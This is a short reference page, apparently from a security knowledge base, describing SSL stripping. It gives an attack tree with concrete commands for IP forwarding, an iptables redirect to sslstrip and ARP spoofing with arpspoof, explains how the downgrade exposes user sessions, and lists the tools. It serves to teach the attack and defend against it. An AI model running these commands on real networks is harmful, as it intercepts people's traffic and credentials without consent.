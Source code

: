 # SSL stripping

## Attack tree

```text
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Notes

SSL stripping downgrades an HTTPS connection to HTTP by intercepting the TLS authentication sent from the 
application to the user. The adversary sends an unencrypted version of the application’s site to the user while 
maintaining the secured session with the application. The user’s session is visible to the adversary.
It is one of the most potent [on-path attack](../box/mitm.md) between a client device and a server because it 
allows for exploitation of services that people assume to be secure.

## Tools

* [dsniff](https://www.monkey.org/~dugsong/dsniff/)
* [sslstrip](https://www.kali.org/tools/sslstrip/)
